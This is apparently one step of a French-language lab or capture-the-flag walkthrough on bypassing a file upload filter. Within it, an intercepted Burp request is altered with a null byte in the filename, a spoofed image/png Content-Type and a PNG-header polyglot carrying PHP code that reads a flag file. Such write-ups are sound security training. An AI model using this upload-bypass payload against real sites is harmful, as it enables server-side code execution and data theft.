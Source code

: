 #### Étape 6 : Null Byte Injection dans Burp

La requête interceptée ressemble à ceci :

```http
POST /api/task3/ HTTP/1.1
Host: test-s3.web0x05.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://test-s3.web0x05.hbtn/task3
Content-Type: multipart/form-data; boundary=---------------------------68636402925356422642491128704
Content-Length: 264
Origin: http://test-s3.web0x05.hbtn
Connection: keep-alive

-----------------------------68636402925356422642491128704
Content-Disposition: form-data; name="file"; filename="image3.php.png"
Content-Type: application/octet-stream

[Contenu binaire avec magic numbers PNG + code PHP]
-----------------------------68636402925356422642491128704--
```

**Modifications à effectuer (CRUCIAL)** :

1. **Ajouter le null byte dans le filename** :
   ```
   filename="image3.php.png"  →  filename="image3.php%00.png"
   ```

2. **Changer le Content-Type** :
   ```
   Content-Type: application/octet-stream  →  Content-Type: image/png
   ```

**Requête modifiée finale** :

```http
POST /api/task3/ HTTP/1.1
Host: test-s3.web0x05.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://test-s3.web0x05.hbtn/task3
Content-Type: multipart/form-data; boundary=---------------------------68636402925356422642491128704
Content-Length: 264
Origin: http://test-s3.web0x05.hbtn
Connection: keep-alive

-----------------------------68636402925356422642491128704
Content-Disposition: form-data; name="file"; filename="image3.php%00.png"
Content-Type: image/png

�PNG

<?php readfile('FLAG_3.txt') ?>

-----------------------------68636402925356422642491128704--
```
